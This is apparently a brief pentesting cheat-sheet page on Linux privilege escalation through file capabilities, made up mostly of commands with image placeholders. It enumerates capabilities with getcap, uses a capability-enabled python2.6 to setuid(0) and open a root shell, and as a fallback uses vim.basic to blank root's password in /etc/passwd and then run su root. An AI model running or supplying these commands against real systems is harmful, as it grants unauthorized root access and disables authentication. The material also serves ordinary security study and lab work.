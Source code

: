 # capability

get system capability

```
 getcap -r / 2>/dev/null 
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
usr/bin/python2.6  -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

***

> try to edit on `/etc/passwd` if the first case not work

```
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd

su root
```

<figure><img src="../../../.gitbook/assets/image 2 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
